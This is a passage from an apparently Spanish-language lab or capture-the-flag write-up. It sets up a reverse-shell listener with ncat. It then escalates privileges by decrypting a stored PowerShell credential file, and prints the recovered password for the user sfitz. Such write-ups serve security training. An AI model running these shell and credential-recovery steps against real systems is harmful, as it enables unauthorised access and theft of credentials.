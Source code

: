 ![20240311095508.png](20240311095508.png)

Y finalmente nos pondremos a la escucha con `ncat` 

```python
❯ rlwrap ncat -lnvp 443
```


![20240311095441.png](20240311095441.png)

# Escalada de privilegios

## Usuario : sfitz

Luego de obtener un shell, enumerando encontraremos con un archivo `connection.xml` que investigando nos encontraremos con los siguientes post:
- [https://stackoverflow.com/questions/63639876/powershell-password-decrypt](https://stackoverflow.com/questions/63639876/powershell-password-decrypt)
- [https://sysadminguides.org/2017/05/02/how-to-pass-credentials-in-powershell/](https://sysadminguides.org/2017/05/02/how-to-pass-credentials-in-powershell/)
- [https://atablog.hashnode.dev/export-clixml-and-import-clixml-saving-objects-to-xml](https://atablog.hashnode.dev/export-clixml-and-import-clixml-saving-objects-to-xml)

Luego pondremos solo la credencial en es archivo `t.txt` para luego ejecutar lo siguiente:

```python
PS C:\users\sfitz> $SecurePassword = Get-Content t.txt | ConvertTo-SecureString
PS C:\users\sfitz> $EncryptedString = Get-Content .\t.txt
PS C:\users\sfitz> $SecureString = ConvertTo-SecureString $EncryptedString
PS C:\users\sfitz> $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
PS C:\users\sfitz> echo $Credential.GetNetworkCredential().Password
f8gQ8fynP44ek1m3

```
